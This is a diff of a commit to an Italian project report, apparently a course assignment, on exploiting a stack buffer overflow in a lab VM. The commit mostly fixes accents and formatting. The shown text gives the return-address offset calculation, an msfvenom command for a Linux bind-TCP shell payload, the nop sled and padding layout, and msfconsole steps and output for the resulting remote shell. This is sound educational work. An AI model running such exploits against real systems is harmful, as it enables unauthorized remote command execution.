

Before and after one commit to gensimone/bo-project, a Markdown page: RELAZIONE.md, 3 parts joined by grey strips. Shown at 94% size. Drawn GitHub-style.

````diff
--- a/RELAZIONE.md
+++ b/RELAZIONE.md
@@ -117,43 +117,43 @@ ret
 
 Come mostrato in figura, il primo argomento della funzione strcpy (rdi) corrisponde
 all'indirizzo base del buffer di interesse.
-Il contenuto del registro rdi e' stato calcolato sottraendo al base pointer (rbp) il
+Il contenuto del registro rdi è stato calcolato sottraendo al base pointer (rbp) il
 valore esadecimale 120, che in decimale corrisponde a 288. Quest'ultimo valore rappresenta
 il numero di bytes necessari a raggiungere il base pointer salvato nello stack a partire
 dall'indirizzo del buffer.
 Per raggiungere l'indirizzo di ritorno (salvato dall'istruzione call al momento della
-invocazione della funzione) 8 bytes di base pointer deveno essere conteggiati ai 288 bytes
+invocazione della funzione), 8 bytes di base pointer devono essere conteggiati ai 288 bytes
 calcolati in precedenza, per un totale di 296 bytes.
-Dopo il calcolo della distanza e' stato possibile generare il payload, compito svolto con
+Dopo il calcolo della distanza è stato possibile generare il payload, compito svolto con
 l'ausilio del framework Metasploit. Il seguente comando shell produce un payload avente
-una lunghezza di 119 bytes e compatibile con il sistema operativo e architettura del
-sistema terget. Una volta eseguito, il payload esegue i seguenti passaggi:\
-- Crea un socket TCP in ascolto sulla porta 4444 ad attende una connessione\
-- Mappa 4096 bytes nella memoria del processo\
-- Attende la ricezione di dati e li salva all'interno della memoria mappata\
-- Esegue i dati salvati
+una lunghezza di 119 bytes e compatibile con il sistema operativo ed architettura del
+sistema target. Una volta eseguito, il payload esegue i seguenti passaggi:\
+
+1. Crea un socket TCP in ascolto sulla porta 4444 e attende una connessione
+2. Mappa 4096 bytes nella memoria del processo
+3. Attende la ricezione di dati e li salva all'interno della memoria mappata
+4. Esegue i dati salvati
 
 ```sh
-msfvenom \
-    --platform linux \
-    --arch x64 \
-    --bad-chars '\x00' \
-    --payload linux/x64/shell/bind_tcp \
-    --format python
+msfvenom --platform linux \
+         --arch x64 \
+         --bad-chars '\x00' \
+         --payload linux/x64/shell/bind_tcp \
+         --format python
 ```
 
 L'opzione --bad-chars '\\x00' istruisce msfvenom di non utilizzare il null byte
-(0x00) all'interno del payload. Questa opzione è necessaria in quanto, lo shellcode viene
+(0x00) all'interno del payload. Questa opzione è necessaria in quanto lo shellcode viene
 copiato nel buffer dalla funzione strcpy. Essendo strcpy progettata per copiare stringhe
 terminate dal carattere nullo, la presenza di un null byte all'interno del payload
 farebbe terminare anticipatamente la copia. Di conseguenza, solo una parte del payload
 verrebbe copiata nel buffer, compromettendone il corretto funzionamento.\
 
-Dopo aver creato il payload, resta da calcolare la lunghezza del nop sled, padding ed il nuovo
+Dopo aver creato il payload, resta da calcolare la lunghezza del nop sled, padding e il nuovo
 indirizzo di ritorno. 60 bytes di nop sled sono stati utilizzati, lasciando quindi 117 bytes
 di padding. Infine, per calcolare il nuovo indirizzo di ritorno, l'analisi della
-porzione di memoria dello stack, successivamente alla chiamata della funzione strcpy,
-e' stata effettuata.
+porzione di memoria dello stack successivamente alla chiamata della funzione strcpy
+è stata effettuata.
 
 ```sh
 ...
@@ -201,10 +201,12 @@ sys.stdout.buffer.write(nopsled + buf + padding + address)
 ```
 
 ## Esecuzione dell'exploit
-Dopo aver realizzato le 3 entita' richieste e' stato possibile lanciare l'attacco.
-L'attaco e' strutturato in 2 fasi.
+
+Dopo aver realizzato le 3 entità richieste è stato possibile lanciare l'attacco.
+L'attacco è strutturato in 2 fasi.
 
 ### Fase 1
+
 In questa fase, il programma vulnerabile viene eseguito fornendo in input lo shellcode
 generato in precedenza. Sulla VM predisposta viene quindi eseguito il seguente comando.
 
@@ -212,11 +214,12 @@ generato in precedenza. Sulla VM predisposta viene quindi eseguito il seguente c
 payload-gen.py | ftext
 ```
 
-Quando eseguito con successo, il comando esposto provochera' l'esecuzione del payload
-e alla predisposizione della fase 2.
+Quando eseguito con successo, il comando esposto provocherà l'esecuzione del payload
+e la predisposizione della fase 2.
 
 ### Fase 2
-In quest'ultima fase, msfconsole, uno strumento del framework Metasploit, e' stato
+
+In quest'ultima fase, msfconsole, uno strumento del framework Metasploit, è stato
 utilizzato per connetterci al socket TCP aperto nella fase 1 e l'esecuzione del secondo
 payload, un codice di 38 bytes che ci permette di ottenere una shell sulla virtual machine.
 
@@ -240,9 +243,8 @@ ospitante la VM con indirizzo 192.168.122.1.
 ```sh
 [*] Started bind TCP handler against 192.168.122.21:4444
 [*] Sending stage (38 bytes) to 192.168.122.21
-[*] Command shell session 1 opened (192.168.122.1:39189 -> 192.168.122.21:4444) at 2026-06-30 20:25:08 +0200
+[*] Command shell session 1 opened (192.168.122.1:39189 -> 192.168.122.21:4444)
 ```
 
-A questo punto e' possibile eseguire comandi arbitrari sul sistema target da una connessione
-remota, con i medisimi permessi del programma vulnerabile, realizzando quindi le richieste
-del progetto.
+A questo punto è possibile eseguire comandi arbitrari sul sistema target da una connessione
+remota, con i medesimi permessi del programma vulnerabile, realizzando quindi le richieste del progetto.
````
Also changed, not shown: other parts of RELAZIONE.md (+29 -29 lines).
